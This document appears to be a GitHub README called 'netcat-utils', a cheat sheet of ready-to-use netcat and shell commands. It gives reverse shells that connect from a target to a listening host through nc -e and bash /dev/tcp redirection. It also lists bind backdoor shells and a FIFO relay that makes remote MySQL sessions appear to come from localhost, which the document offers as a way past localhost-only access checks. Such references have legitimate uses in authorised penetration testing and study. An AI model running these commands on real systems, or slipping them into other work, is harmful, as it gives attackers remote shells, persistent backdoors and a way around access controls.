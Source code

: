 # netcat-utils
Useful netcat commands such as Reverse Shells, Port Relays via FIFO, and others stuff.




***





### Listener ###
Listen for inbound connection over TCP. This can be used to receive reverse shell sessions.
```
nc -lv -p [port]
```
---




### Connections ###
Initiate an outbound connection over TCP to a `[host]` which is listening on that `[port]`.
```
nc [host] [port]
```
---



### Reverse Shells ###
Run the following commands on a target which attempt to connect over TCP to the `[host]`. Host must be listening on `[port]`, _see above_.
```
nc [host] [port] -e /bin/bash
nc [host] [port] -e /bin/sh
nc [host] [port] -e cmd.exe
```
---



### Backdoor Shells ###
Same commands as before but in this case the target creates a listener which serves up a shell to anyone connecting on that `[port]`.
```
nc -l -p [port] -e /bin/bash
nc -l -p [port] -e /bin/sh
nc -l -p [port] -e cmd.exe
```
---



### Reverse Shell without Netcat on Target ###
As with the previous reverse shells, the `host` should be listening on the `port` sepecified for the callback to be successful.
```
bash -i >& /dev/tcp/[host]/[port] 0>&1
sh -i >& /dev/tcp/[host]/[port] 0>&1
python -i >& /dev/tcp/[host]/[port] 0>&1
```
---



### Relay / Port Redirection ###

**Create FIFO**

First in First Out, also known as named pipes, created by using `mknod p`. The `p` flag == type FIFO.
```
mknod [pipe-name] p
```

**Relay**

Create a loopback which will relay traffic between `localhost:[Port-A]` and `localhost:[Port-B]` on the target, allowing inbound connections to `localhost:[Port-B]` to be directed at `[Port-A]`.
```
nc -l -p [Port-B] 0< [pipe-name] | nc localhost [Port-A] 1> [pipe-name]
```
First netcat is used to create a listener on `[Port-B]` which we will direct Stdin `0<` to the named-pipe. Then forward the output of this listener via the tranditional pipe to the netcat connection to `[Port-A]`. Direct whatever service is listening on `[Port-A]` Stdout `1>` to the named-pipe, which will send the response back through the listener.

**Examples:**

MySQL by default listens on Port 3306, this will fool mysqld into thinking the connecting user is `user@localhost`! Many web apps only permit users from localhost and communicate via loopback connections to backend databases while not exposing the port to the outside; this would bypass that allowing external mysql client sessions that appear to originate from localhost.
Target: `nc -l -p [Port-B] 0< [pipe-name] | nc 127.0.0.1 3306 1> [pipe-name]`
Connection: `mysql --port [Port-B] --username=[user] --password=[passwd]`
Unfortunately the default `secure_mysql_installation` option "Prevent root from outside" will still disable `root`@`localhost` to connect in this manor.

FIFO's can also be used to connect to shells.
```
nc -l -p [port] 0< [pipe-name] | bash -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | sh -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | python -i 1> [pipe-name]
```
---



### File Transfer ###
Files can be transmitted across a netcat session using Stdin/Stdout.

Destination: `nc -l -p [port] > /path/to/file`

Source: `nc [host] [port] < path/to/file`

